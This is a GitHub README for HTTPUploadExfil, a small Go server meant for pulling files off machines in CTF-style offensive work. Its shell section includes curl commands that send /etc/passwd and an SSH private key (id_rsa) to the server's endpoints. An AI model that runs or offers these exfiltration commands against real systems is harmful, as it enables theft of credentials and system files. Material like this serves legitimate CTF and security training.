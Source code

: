 # HTTPUploadExfil

<p align="center">
  <img alt="HTTPUploadExfil Logo" height="200" src="https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/HTTPUploadExfil.png?raw=true"/>
</p>

![MIT License](https://img.shields.io/github/license/IngoKl/HTTPUploadExfil?style=flat-square)
![GitHub stars](https://img.shields.io/github/stars/IngoKl/HTTPUploadExfil?style=flat-square)

`HTTPUploadExfil` is a (very) simple HTTP server written in Go that's useful for getting files (and other information) off a machine using HTTP. While there are many use-cases, it's meant to be used in **low-stakes offensive scenarios** (e.g., CTFs).

Think of this as `python3 -m http.server` but for getting data off a machine instead of on the machine.

Obviously, this is a **very loud** and **somewhat restricted** way of exfiltrating data. Nevertheless, it's quite handy and somewhat easier than, for example, using SMB or FTP. If you are looking for something more elegant, have a look at, for example, [`dnsteal`](https://github.com/m57/dnsteal) or [`PyExfil`](https://github.com/ytisf/PyExfil).

## TL;DR

1) Build the tool using `go build`.
2) Run `./httpuploadexfil :1337 /home/kali/loot` on your machine.
3) Access `http://YOUR_IP:1337/` on the machine you need to exfiltrate data from.
4) Find your uploaded files in `/home/kali/loot`.

If you need HTTPs, look at the information below.

## Building and Developing

While there are binaries available, it's absolutely recommended to **build this on your own**. This way, you will have the newest version, and you will also know exactly what you're running. The process is trivial:

Simply run `go build` within the folder, and you should get an `httpuploadexfil` executable for your platform.

If you make changes to the tool, remember to format using `go fmt main.go`.

## Usage

The most common use case would be to run the server on *Machine A*. Now, on *Machine B* you access the upload form using a browser and select a file to exfiltrate. Of course, as you can see below, this can also be done using, for example, `curl`.

Aside from uploading files, you can also use `HTTPUploadExfil` to exfiltrate data using simple GET requests. If a request is sent to the `\g` endpoint, the whole request will be stored to disk.

Hence, you can exfiltrate data using the header of the request. It's easiest to use GET parameters (e.g., `?data=...`), but there are other options.

![HTTPUploadExfil](https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/example-1.png?raw=true)

By default, `HTTPUploadExfil` will be served on port 8080. All files will be written to the current directory.

`./httpuploadexfil`

You can also provide some arguments:

`./httpuploadexfil :1337 /home/kali/loot`

The first argument is a bind address, the second one the folder to store files in.

The tool will also expose the files in the loot directory under the `/l` endpoint. This can be used as an easy way to bring files onto the target.

### Endpoints

The webserver exposes four endpoints for you to use:

1) `/` (GET) is the upload form.
2) `/p` (POST) takes the data from the upload form. It requires a `multipart/form-data` request with the `file` field filled.
3) `/g` (GET) will take any GET request and store the full request on the server.
4) `/l` (GET) will provide access to files in the specified folder (Directory Listing). This is to provide basic `python3 -m http.server` functionality.

### HTTPs Mode

`HTTPUploadExfil` can also be used in HTTPs mode. To do so, simply place a `HTTPUploadExfil.csr` and `HTTPUploadExfil.key` file next to the binary. These can be, for example, generated as follows:

```bash
openssl req -new -newkey rsa:2048 -nodes -keyout HTTPUploadExfil.key -out HTTPUploadExfil.csr
openssl x509 -req -days 365 -in HTTPUploadExfil.csr -signkey HTTPUploadExfil.key -out HTTPUploadExfil.csr
```

If the servers sees a `HTTPUploadExfil.csr` file, it will try to start in HTTPs mode. To go back to HTTP, simply remove or rename the certificate files.

### Shell

Using `Bash`, we can exfil data using GET via, for example:

``echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g``

Of course, we can also use `curl` to exfil files:

`curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p`

## ToDo

- [X] Implement an HTTPs version (Transport Encryption)
- [X] Add download option (i.e., provide `python3 -m http.server` functionality)
